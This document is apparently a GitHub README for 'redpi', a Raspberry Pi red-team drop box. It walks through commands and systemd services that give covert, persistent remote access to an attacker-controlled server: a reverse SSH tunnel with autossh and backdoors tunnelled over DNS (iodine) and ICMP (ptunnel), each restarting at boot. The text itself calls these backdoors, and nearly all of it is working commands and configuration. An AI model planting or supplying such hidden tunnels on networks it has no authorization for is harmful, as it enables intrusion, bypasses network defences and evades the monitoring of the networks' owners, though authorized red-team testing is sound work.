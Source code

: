 # redpi
red team tools to install into a rpi

## install

```
sudo ./setup.sh
```

## autossh

In order to have a remote connexion to the raspberry:
```bash
ssh-keygen -t rsa -b 4096
ssh-copy-id ~/.ssh/id_rsa.pub user@domain -> to copy keys to the remote server
ssh user@domain -> to verify that we do not need password anymore to connect
```

Then create a service that will autossh to your domain at boot time:
```bash
sudo vim /etc/systemd/system/autossh.service

[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=pi
Environment="AUTOSSH_GATETIME 0"
ExecStart=/usr/bin/autossh -N -R 2222:localhost:22 user@domain -p 22 -i ~/.ssh/id_rsa
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

You need to reload the services list:

```bash
sudo systemctl daemon-reload
sudo systemctl enable autossh.service
sudo reboot
```

Then you could connect to your domain, then:
```bash
ssh pi@localhost -p 2222
```

## iodine and backdoor through dns tunneling

Modify your DNS zone as follow:
A record: tunnelhost.DOMAINNAME.com maps to IP
NS record: tunnel.DOMAINNAME.com maps to tunnelhost.DOMAINNAME.com

On the server (VPS):
```bash
sudo iodined -c -f 172.16.0.0/24 -P SuperPassword tunnel.DOMAINNAME.com
```

This command will create a interface (dns0) with IP 172.16.0.0

On the client (raspberry) create the service:
```bash
sudo vim /etc/systemd/system/autoiodine.service


[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=root
ExecStart=/usr/sbin/iodine -I 50 -f -P SuperPassword tunnel.DOMAINNAME.com
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

This service will create an interface (dns1) with ip 172.16.0.1

Then reload the service and enable it:
```bash
sudo sytemctl daemon-reload
sudo systemctl enable autoiodine.service
sudo reboot
```

Then you could connect to your domain, then ssh through dns tunnel to the raspberry pi:
```bash
ssh pi@172.16.0.1
```

# ptunnel and backdoor throught icmp tunneling

On the server (VPS):
```bash
sudo ptunnel -c ens3 -x SuperPassword
```

On the client (raspberry), create a bash script:
```bash
touch /home/pi/autoptunnel.sh
chmod +x home/pi/autoptunnel.sh
vim /home/pi/autoptunnel.sh

#!/bin/bash
/usr/sbin/ptunnel -p IP_SERVER -lp 8000 -da IP_SERVER -dp 22 -x SuperPassword &
sleep 5
ssh -N -R 2222:localhost:22 root@localhost -p 8000
```

Then, still on the client, create a service:
```bash
sudo vim /etc/systemd/system/autoptunnel.service


[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=root
ExecStart=/bin/bash /home/pi/autoptunnel.sh
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

Then reload the service and enable it:
```bash
sudo sytemctl daemon-reload
sudo systemctl enable autoptunnel.service
sudo reboot
```

Then on the server, you can connect to the pi:
```bash
ssh pi@localhost -p 2222
```


